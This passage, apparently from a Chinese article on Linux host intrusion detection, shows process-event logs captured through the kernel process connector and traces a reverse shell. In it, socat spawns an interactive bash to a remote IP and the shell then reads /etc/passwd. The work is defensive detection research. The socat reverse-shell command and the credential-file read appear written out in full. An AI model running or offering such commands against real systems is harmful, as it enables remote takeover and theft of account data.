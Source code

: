 ```
Exec: `{`tid:5860 pid:5860`}` -&gt; process exe:/usr/bin/socat, cmdline:socat exec:bash -li,pty,stderr,setsid,sigint,sane tcp:172.18.5.169:80, cwd:/home/root

Fork: `{`ptid:5860 ppid:5860 tid:5861 pid:5861`}` -&gt; process exe:/usr/bin/socat, cmdline:socat exec:bash -li,pty,stderr,setsid,sigint,sane tcp:192.168.10.12:80, cwd:/home/root

Exec: `{`tid:5861 pid:5861`}` -&gt; process exe:/usr/bin/bash, cmdline:bash -li, cwd:/home/cnptest

Fork: `{`ptid:5861 ppid:5861 tid:5918 pid:5918`}` -&gt; process exe:/usr/bin/bash, cmdline:bash -li, cwd:/home/root

Exec: `{`tid:5918 pid:5918`}` -&gt; process exe:/usr/bin/cat, cmdline:cat /etc/passwd, cwd:/home/root

```

[![](https://p5.ssl.qhimg.com/t01709f594a7041affa.png)](https://p5.ssl.qhimg.com/t01709f594a7041affa.png)

重点关注Exec事件

第一条Exec事件：在被攻击shell上执行socat exec命令产生进程(pid 5860), 进程详细信息: exe为/usr/bin/socat, cmdline参数:socat exec:bash -li,pty,stderr,setsid,sigint,sane tcp:192.168.10.12:80

第二条Exec事件：socat进程 fork出子进程 bash(pid 5861) ，执行bash -li操作, bash进程详细信息：exe:/usr/bin/bash, cmdline参数: bash -li

第三条Exec事件：bash进程再fork出子进程 cat(pid 5918), 执行cat /etc/passwd操作, cat进程详细信息：/usr/bin/cat, cmdline参数:cat /etc/passwd。

整个反弹shell进程树结构：

[![](https://p2.ssl.qhimg.com/t01b6c48d1199b00ac4.png)](https://p2.ssl.qhimg.com/t01b6c48d1199b00ac4.png)

在上述反弹shell方式中，依次产生socat进程事件、bash -i进程事件、cat 进程事件，通过进程的exe和cmdline信息可以快速检测入侵危险命令执行，结合父子进程pid，ppid等信息可以还原在攻击机器通过socat、bash -i等命令反弹shell远程控制，并盗取主机passwd文件的整个入侵过程。



## 5 结论

通过linux连接器结合轻量级用户态应用程序 ncp 能够实时审计 linux 进程事件，在此基础上采集进程proc目录下各维度信息，如 exe， cmdline，status，fd，stack 等，描绘出更详尽的进程轮廓，为主机安全反入侵检测提供重要数据支撑，实时抓取入侵攻击链路的异常动作，感知安全攻击行为。
